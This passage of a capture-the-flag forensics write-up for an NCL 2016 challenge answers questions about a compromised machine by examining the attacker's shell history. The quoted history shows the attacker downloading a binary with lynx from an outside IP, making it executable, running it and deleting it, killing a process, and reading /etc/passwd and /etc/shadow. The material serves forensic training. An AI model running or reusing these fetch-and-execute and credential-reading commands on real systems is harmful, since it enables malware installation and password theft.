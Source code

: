 ```console
cd application/l
cd application/
ls
git diff
git status
git commit
git push origin master
cd ../
cat README.md
```

Looking into the output of the file, we can see that [Lynx](https://linux.die.net/man/1/lynx) is being used, which is a command line web browser. This would be the URL that is downloading the malware.

__Answer: http://216.242.103.2:8882/foo__

--

__What is the port hosting the malware download?__

Simple... just look at the URL Port on answer 1.

__Answer: 8882__

--

__What is the PID of the program that the hacker killed?__

Back in the output - let's look for the [ps](https://linux.die.net/man/1/ps) command and see what PID its killing.

```console
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# cat .bash_history 
cd ~/docs
ls
vim 100 0 0.5 10 .csv
vim 100\ 0\ 0.5\ 10\ .csv
vim 100\ 0\ 4.0\ 20\ .csv
vim README.md
---snip---
whoami
killall -9 ttserve 
lynx -source http://216.242.103.2:8882/foo > /tmp/ttserve 
chmod 755 /tmp/ttserve 
cd /tmp 
./ttserve 
rm -rf /tmp/ttserve ./ttserve
netstat -plant
ps kill -9 12432
clear
ls
vim ~/.bashrc
vim /etc/hosts
cat /etc/passwd
cat /etc/shadow
ifconfig
nmap -sL -n 192.168.2.1/32 | grep 'Nmap scan report for' | cut -f 5 -d ' '
cd application/l
cd application/
ls
git diff
git status
git commit
git push origin master
cd ../
cat README.md
```